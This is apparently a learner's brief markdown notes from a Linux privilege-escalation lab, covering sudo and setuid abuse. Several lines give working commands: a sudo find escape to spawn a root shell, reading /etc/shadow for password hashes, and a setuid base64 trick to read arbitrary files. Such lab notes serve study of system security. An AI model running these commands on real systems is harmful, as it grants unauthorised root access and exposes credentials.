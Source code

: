 # LINUX PrivEX

Task 6

```
>> sudo -l 

```
found the find  command and went to gtfobins for a sudo priv esc command

```
>> sudo find . -exec /bin/sh \; -quit

```

the root


to read the password hash , i checked the /etc/shadow file 

```
>>  cat /etc/shadow

```

# Task 7


### setuid  (Set-user Identification)  -> These allow files to be executed with the permission level of the file owner or the group owner, respectively.

find files with Setuid bit set using the find command

    1722     44 -rwsr-xr-x   1 root     root               43352 Sep  5  2019 /usr/bin/base64  

```

>> LFILE=file_to_read

>> ./base64 "$LFILE" | base64 --decode

```

file read 



## Pset

	Excalate with less command Sudo
